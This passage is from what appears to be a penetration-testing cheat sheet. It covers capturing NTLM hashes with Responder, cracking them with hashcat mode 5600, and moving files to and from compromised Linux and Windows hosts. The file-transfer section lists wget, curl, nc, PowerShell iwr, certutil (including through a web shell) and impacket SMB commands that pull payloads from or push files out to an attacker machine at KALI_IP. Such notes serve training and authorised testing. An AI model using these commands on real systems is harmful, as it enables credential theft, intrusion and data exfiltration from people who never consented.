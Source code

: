 ### Responder hash stealing
set responder
```
responder -I tun0
```
To launch the attack remotely, use `file://IP/file` instead of http/smb etc

To launch the attack locally (in a windows host), use `net use Y: \\KALI_IP\share`

crack the captured hash with hashcat mode 5600

## 3. File Transfer
### Linux target
```bash
## HTTP
# Kali side
python3 -m http.server 80
# Target side
wget/curl KALI_IP/FILE
## nc
# Receiver
nc -lvnp PORT > FILE
# Sender
nc -nv Receiver_IP PORT < FILE
```

### Windows Target
#### HTTP
```bash
# Kali side
python3 -m http.server 80
```
```powershell
# powershell way
powershell iwr http://KALI_IP/FILE -outfile .\FILE
# Certutil cmd
certutil.exe -urlcache -f http://KALI_IP/FILE OUTPUT_PATH
# if via web shell
cmd.exe /c certutil.exe -urlcache -f http://KALI_IP/FILE OUTPUT_PATH
```

#### SMB (recommended)
```bash
# Kali side
impacket-smbserver share . -smb2support -username USER -password PASS
```
```cmd
# Windows side
net use Y: \\KALI_IP\share /user:USER PASS
# After established connection
# Transfer from windows to Kali
copy FILE Y:\
# Transfer from kali to windows
copy Y:\File .\
```

